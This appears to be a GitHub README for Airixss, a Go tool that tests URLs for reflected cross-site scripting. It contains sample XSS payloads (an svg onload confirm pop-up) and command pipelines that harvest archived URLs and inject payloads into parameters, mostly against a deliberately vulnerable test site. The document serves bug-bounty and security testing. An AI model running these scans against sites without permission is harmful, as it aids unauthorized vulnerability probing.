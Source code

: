 [![made-with-Go](https://img.shields.io/badge/made%20with-Go-brightgreen.svg)](http://golang.org)
<h1 align="center">Airixss</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Airixss is for checking reflection in recon process to find possible xss vulnerable endpoints.</h3>

<img src="https://cdn.discordapp.com/attachments/876919540682989609/962814461650018354/unknown.png">


## Contents:

- [Installation](#--installation--requirements)
- [Usage](#--usage--explanation)
  - [Adding Headers](#adding-headers)
  - [Using Proxy](#using-proxy)
  - [Headless Mode](#headless-mode)
  - [Using with other tools](#chaining-with-other-tools)

## - Installation & Requirements:
You need to install chromedp lib first ->
```bash
▶ go get -u github.com/chromedp/chromedp
```

Installing the tool ->

Using go
```bash
▶ go get -u github.com/ferreiraklet/airixss@latest
```
Using git clone
```bash
▶ git clone https://github.com/ferreiraklet/airixss.git
▶ cd airixss
▶ go build airixss.go
▶ chmod +x airixss
▶ ./airixss -h
```
<br>


## - Usage & Explanation:

In Your recon process, you may find endpoints that can be vulnerable to xss,
  
* Ex: https://redacted.com/index.php?msg=SameValue
  
* By replacing the "SameValue" to a xss payload, In order to see if there is reflection/vulnerable, it is when you use airixss
  

<br>
  
### Stdin - Single urls

```bash
echo 'https://redacted.com/index.php?user=%22%3E%3Csvg%20onload%3Dconfirm%281%29%3E' | airixss -payload "confirm(1)"

echo "http://testphp.vulnweb.com:80/hpp/index.php?pp=x" | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```
In -payload flag, you need to specify a part of the payload used in url, -payload "value_will_be_checked_reflection"
  
### Stdin - Read from File

```bash
cat targets | airixss -payload "alert(1)"
```

### Adding Headers

Pay attention to the syntax!
```bash
echo "http://testphp.vulnweb.com:80/hpp/index.php?pp=x" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" -H "header1: value1;Header2: value2"
```

### Using Proxy
 
```bash
echo "http://testphp.vulnweb.com:80/hpp/index.php?pp=x" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" --proxy "http://yourproxy"
```
### Headless Mode

**Headless mode is a "simulated" browser process that checks for the xss pop-up**

It has much more accuracy, however, it is slower than normal method.

**Usage**:
 * **Attention** - Using more than 5 concurrencys may generate errors!
```bash
echo "http://testphp.vulnweb.com:80/hpp/index.php?pp=x" | qsreplace '"><svg onload=confirm(1)>' | airixss --headless-mode -c 5

echo "http://testphp.vulnweb.com:80/hpp/index.php?pp=x" | qsreplace '"><svg onload=confirm(1)>' | airixss --headless-mode --only-poc -c 5
```
Using Proxy:
```bash
echo "http://testphp.vulnweb.com:80/hpp/index.php?pp=x" | qsreplace '"><svg onload=confirm(1)>' | airixss --headless-mode -c 5 --proxy "http://yourproxy"
```

### Chaining with other tools
```bash
echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1) -H "Header1: Value1;Header2: value2"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1) -H "Header1: Value1;Header2: value2" --proxy "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1) -H "Header1: Value1;Header2: value2" --proxy "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | nilo | qsreplace '"><svg onload=confirm(1)>' | airixss --headless-mode --only-poc -c 5
```
    

## Check out some of my other programs <br>

> [Nilo](https://github.com/ferreiraklet/nilo) - Checks if URL has status 200

> [Jeeves](https://github.com/ferreiraklet/jeeves) - Time based blind Injection Scanner

## Please, also check these => <br>
> [GXSS](https://github.com/KathanP19/Gxss)

> [Dalfox](https://github.com/hahwul/dalfox)


If any error in the program, talk to me immediatly.
## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.
